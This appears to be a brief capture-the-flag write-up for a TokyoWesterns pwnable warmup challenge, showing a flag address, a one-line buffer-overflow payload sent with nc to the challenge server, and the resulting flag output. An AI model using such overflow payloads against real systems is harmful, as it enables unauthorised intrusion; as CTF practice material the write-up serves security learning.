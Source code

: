 ```python
flag = 0x0804a080
```
```bash
echo -e "AAAAAAAAAAAAAAAAAAAA\x80\xa0\x04\x08" |nc pwn1.chal.ctf.westerns.tokyo 12345
```
<br>
Welcome my secret service. Do you know the password? <br>
Input the password.<br>
TWCTF{pwnable_warmup_I_did_it!}<br>
